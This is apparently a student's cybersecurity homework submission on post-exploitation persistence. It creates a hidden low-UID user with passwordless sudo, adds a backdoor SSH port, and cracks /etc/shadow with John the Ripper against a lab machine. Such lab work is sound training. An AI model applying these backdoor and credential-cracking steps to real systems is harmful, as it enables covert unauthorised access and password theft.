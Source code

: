 ## **Rachel Murphy**

April 3, 2021


## **Week 6 Homework Submission File: Advanced Bash - Owning the System**

**Step 1: Shadow People**

1. Create a secret user named sysd. Make sure this user doesn't have a home folder created: 

```sudo adduser --no-create-home sysd```

2. Give your secret user a password: hello

    *   Give your secret user a system UID &lt; 1000: ```usermod -u 555 sysd```
     
3. Give your secret user the same GID: ```groupmod -g 555 sysd```

4. Give your secret user full sudo access without the need for a password: ```visudo```

![image](https://user-images.githubusercontent.com/76081641/119245160-a8d69880-bb3c-11eb-9063-4f1e6f8d35e2.png)


5. Test that sudo access works without your password: 

![image](https://user-images.githubusercontent.com/76081641/119246439-2bfcec00-bb47-11eb-91d4-f1e50c9c8c5e.png)


**Step 2: Smooth Sailing**

1. Edit the sshd_config file: ```nano sshd_config```
2. Add port 2222 in the ```sshd_config``` file.

![image](https://user-images.githubusercontent.com/76081641/119246450-4afb7e00-bb47-11eb-932a-539c4c206fa4.png)

**Step 3: Testing Your Configuration Update**

1. Restart the SSH service: ```systemctl restart sshd```

2. Exit the root account: ```exit```

3. SSH to the target machine using your sysd account and port 2222: 

```ssh sysd@192.168.6.105 -p 2222```


4. Use sudo to switch to the root user: ```sudo su```


**Step 4: Crack All the Passwords**


1. SSH back to the system using your sysd account and port 2222: 

```ssh sysd@192.168.6.105 -p 2222```

2. Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file: 

  ``` john /etc/shadow```
![image](https://user-images.githubusercontent.com/76081641/119246475-8bf39280-bb47-11eb-922c-5aa117040942.png)
